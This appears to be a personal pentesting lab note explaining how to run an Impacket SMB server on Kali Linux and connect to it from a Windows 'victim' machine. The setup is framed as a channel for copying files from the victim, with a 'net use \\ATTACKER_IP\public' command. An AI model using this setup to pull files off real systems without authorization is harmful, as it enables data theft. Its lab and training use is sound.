 5. Open `Run` (`Win + R`).
6. Enter the following:
    ```text
    \\<Kali_IP>\public
    ```
    
7. You should see the `public` shared folder without being prompted for a username or password.
 **Step 4: Troubleshoot if Necessary**
- **Firewall**: Ensure the firewall on Kali Linux allows SMB traffic (port 445):
    ```bash
    sudo ufw allow 445
    sudo ufw allow 137/udp
    sudo ufw allow 138/udp
    sudo ufw allow 139/tcp
    ```
- **Check SMB Status**: Verify that the SMB service is running:
    ```bash
    sudo systemctl status smbd
    ```
- **Windows Credentials**: If Windows prompts for a username and password, clear any cached credentials:
    1. Open the **Credential Manager**.
        
    2. Remove any saved credentials for the Kali Linux IP address.
For Creating a [[Create NTFS Disk on kali linux]]


#### On the Attacker Machine (Kali Linux):
1. **Create a Directory to Act as the Share**:
   ```bash
   mkdir /tmp/share
   ```
   This folder (`/tmp/share`) will be shared over the SMB server and will store files copied from the Windows machine.

2. **Start the SMB Server with Impacket**:
   Run the `smbserver.py` script to create an SMB server on Kali Linux:
   ```bash
   python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username user -password pass public /tmp/share
   ```
   - Replace `<user>` and `<pass>` with a username and password of your choice for accessing the share.
   - `public` is the name of the SMB share, which can be accessed by the Windows host.
   - `/tmp/share` is the path to the directory that will be accessible from the Windows machine.

3. **Confirm the SMB Server is Running**:
   Once started, your SMB server should be listening for connections, allowing file transfers between the Windows host and Kali Linux.

#### On the Victim Machine (Windows):
1. **Access the SMB Share**:
   Open `cmd` and use the following command to connect to the SMB share on Kali:
   ```cmd
   net use \\ATTACKER_IP\public /user:user pass
   ```
   - Replace `ATTACKER_IP` with the IP address of your Kali Linux machine.
   - Replace `<user>` and `<pass>` with the username and password set when starting the SMB server.
